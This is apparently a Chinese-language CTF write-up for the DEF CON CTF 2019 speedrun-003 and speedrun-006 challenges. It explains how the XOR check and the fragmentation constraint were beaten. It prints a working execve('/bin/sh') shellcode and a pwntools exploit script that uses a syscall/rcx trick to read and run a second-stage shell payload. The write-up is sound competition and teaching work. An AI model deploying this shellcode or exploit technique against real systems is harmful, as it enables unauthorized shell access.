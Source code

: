```yaml
---
layout:     post
title:      "ctf_is_hard, getting some knowledge is all"
date:       2019-05-14
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - speedrun
    - defcon ctf 2019
---
```


# Defcon ctf 2019 之菜鸟爬山

[TOC]

## 前言

这次defcon ctf 2019，尝试去做了一下，然后发现两眼一抹黑，看了为数不多的几道题，最后都没有做出来，最后只做了两道speedrun，分别是003和006，两道都是关于shellcode构造的题，好歹是学了点东西，权作总结。

## speedrun-003

首先使用IDA打开文件，分析可以发现主要流程在函数`get_that_shellcode()`中：

![1557815993760](/assets/1557815993760.png)

大意就是读取用户输入的30字节大小的字符串，然后保证前15个字符与后15个字符异或的值相等，然后就执行该段shellcode。

这里的重点在于，当前29个字节异或的值与最后一个字节值相等时，必定满足该条件，所以只需要找一段小于30字节的shellcode就可以了，这里找到了一段执行execv(‘/bin/sh’,0,0)的shellcode：

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

将shellcode补足30个字节，并且计算前29个字节异或的值填到最后一个字节，使用pwntools编写脚本，即可getshell。

## speedrun-006

使用IDA打开文件，主要函数是`get_that_shellcode()`：

![1557816501982](/assets/1557816501982.png)

用户要输入26个字节大小的shellcode，然后会进入函数`shellcode_it()`函数：

![1557816599412](/assets/1557816599412.png)

这个函数主要是对输入的26个字节进行处理，最后放到了一段总长度为78字节的区域，然后运行这一段区域的代码，值得注意的是，前48个字节主要是进行了将寄存器统统置0的操作，后面30个字节是将26个字节中间插入4个0xcc，将其截断，分割成5，4，9，8四个部分，所以要解决的问题就是两点：

- shellcode分片构造(比较好构造，就不多做介绍)
- 消除寄存器被置0的影响

由于寄存器被置0，这就不得不提syscall这个指令的骚操作，这种方法主要是当寄存器的值都为0时，执行syacall会将rip的值给到rcx，所以分片构造时，合理利用rcx实现syscall_read()的效果，就可以不受字节数限制，发送新的获取shell的shellcode了：

```python
shellcode=asm("""
	syscall;
	jmp xx;
	nop;
	nop;
	xx:
	jmp yy;
    ret
    nop
    yy:
    xor rsi,rcx;
    xor edx,ecx;
    syscall
	"""
,os="linux"
,arch="amd64")
# 0f05eb029090eb02c3904831ce31ca0f05
shellcode=shellcode.ljust(26,'\x01') 
p.recvuntil("ride")
p.send(shellcode)

payload="\x90"*0x30+asm("xor rsp,rcx;add rsp,0x500",os="linux",arch="amd64")+asm(shellcraft.amd64.sh(),os="linux",arch="amd64")
p.send(payload)
p.interactive() #get the shell
```

这里主要解释xor rsi,rcx;xor edx,ecx;这两行汇编代码，这里是实现了调用`syscall_read(eax,rsi,edx,rdi)`，其中eax已经为0，代表`syscall_read()`的系统调用号，rsi则是read读到的数据存储的起始地址（这里对应syscall第一次执行时的位置），edx则是对应长度（对应syscall所处内存地址普遍很大，足够读取shellcode），rdi为0代表是从标准输入读入数据，所以我们才能再次传入shellcode执行获得shell。

这里可以通过练习`star ctf 2018`的`primepwn`来熟悉这一方法，[题目地址](<https://github.com/sixstars/starctf2018/tree/master/pwn-primepwn>)以及对该题目的一个解法讲解的博客[文章地址](<http://eternalsakura13.com/2018/04/27/star_primepwn/>)可以点击进行查看。